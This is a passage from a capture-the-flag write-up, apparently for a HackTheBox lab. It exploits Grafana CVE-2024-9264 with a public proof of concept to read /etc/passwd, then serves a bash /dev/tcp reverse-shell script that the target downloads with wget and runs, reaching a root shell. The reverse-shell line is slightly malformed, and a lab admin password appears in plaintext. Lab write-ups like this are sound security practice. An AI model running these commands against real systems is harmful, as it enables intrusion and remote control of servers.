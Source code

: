 So we have a version and a service which brings us to internet searching: "grafana v 11.0 exploit"

Which brought me to:
[Grafana CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)

and this PoC, which there are others, but this one was written with what seems to be a better understanding of the CVE.
[Proof-of-Concept](https://github.com/nollium/CVE-2024-9264)

Whether or not this is vulnerable we can't really see from any of the information presented on the grafana page. We just have to run it and see if it works.

```bash
git clone 'https://github.com/nollium/CVE-2024-9264'
cd CVE-2024-9264
uv venv; .venv/bin/activate; uv pip install -r requirements.txt
uv run CVE-2024-9264.py http://grafana.planning.htb -u admin -p $BOX_PASS -f '/etc/passwd'
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<snip>
...
</snip>
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Perfect, it's vulnerable.
Now, if you attempt to get a reverse shell with this particular CVE, you'll notice your attempts will fail, because for the -c option, it redirects the output specifically to the grafana output and you get fd errors, attempting to utilize typical reverse shell payloads in the query.
We can edit the code and have it all done in there, which would require constructing another query to write to a file and then running it, but it's a little easier to just upload the reverse shell payload and execute it.

```bash
nc -lvnp 9001 &
echo "bash -i /dev/tcp/$TUNIP/$TUNPORT 0>&1" > rev.sh
python -m http.server &
uv run CVE-2024-9264.py http://grafana.planning.htb -u admin -p $BOX_PASS -c "wget http://$TUNIP:$TUNPORT/rev.sh"
# Knock off the web server
kill %2
uv run CVE-2024-9264.py http://grafana.planning.htb -u admin -p $BOX_PASS -c "bash rev.sh"
#grab our reverse shell
fg
``
root@7ce659d667d7:~#
```
